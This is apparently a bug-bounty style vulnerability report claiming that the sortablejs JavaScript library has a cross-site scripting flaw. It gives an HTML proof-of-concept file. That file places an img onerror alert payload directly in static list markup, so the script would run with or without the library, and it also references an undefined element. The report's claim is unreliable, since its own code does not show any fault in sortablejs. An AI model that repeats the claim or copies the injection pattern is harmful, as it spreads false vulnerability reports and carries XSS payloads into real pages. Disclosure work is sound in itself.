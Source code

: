 # Description

`sortablejs` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

Copy the below content and save it into a .html file and open in any browser XSS payload will get executed.
```
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>Sortable</title>
</head>
<body>
<script src="https://cdn.jsdelivr.net/npm/sortablejs@latest/Sortable.min.js"></script>
//<script src="https://raw.githack.com/SortableJS/Sortable/master/Sortable.js"></script>
  
  <div id="simpleList" class="list-group">
    <div class="list-group-item">ITEM1'<img src=x onerror=alert(1)></div>
    <div class="list-group-item">ITEM2</div>
    <div class="list-group-item">ITEM3</div>
    <div class="list-group-item">ITEM4</div>
    <div class="list-group-item">ITEM5</div>
  </div>
      
  <script>
      Sortable.create(simpleList, { });
      Sortable.create(listWithHandle, {
         handle: '.glyphicon-move',
         animation: 150
		 });
 
  </script>
</body>
</html>
```
